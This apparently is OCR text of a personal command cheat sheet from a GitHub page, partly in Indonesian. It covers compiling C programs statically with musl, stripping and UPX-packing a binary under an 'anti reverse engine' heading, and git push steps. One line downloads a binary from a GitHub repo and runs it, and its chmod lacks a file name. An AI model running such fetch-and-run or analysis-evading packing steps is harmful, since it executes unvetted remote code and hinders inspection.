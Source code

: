 #compile

gcc -o x x.c

gcc x.c -o x -pthread

gcc x.c -o x -lpthread

apt update && apt install musl musl-dev musl-tools

musl-gcc -static own.c -o own

musl-gcc -static sx.c -o sx

#anti reverse engine

strip --strip-unneeded xgm -o xc_stripped

upx --best xc_stripped -o xgmprotect


#execute

wget https://github.com/x011-al/flex-x/raw/refs/heads/main/own && chmod +x && ./own


# upload file ke git

git add namafile

git commit -m "menambahkan file namafile"

Buka GitHub → Settings → Developer settings → Personal access tokens

git remote set-url origin https://x011-al@github.com/x011-al/tesb.git

git push origin main

#gabung commite

git pull origin main --rebase

git push origin main

#replace commite

git push origin main --force



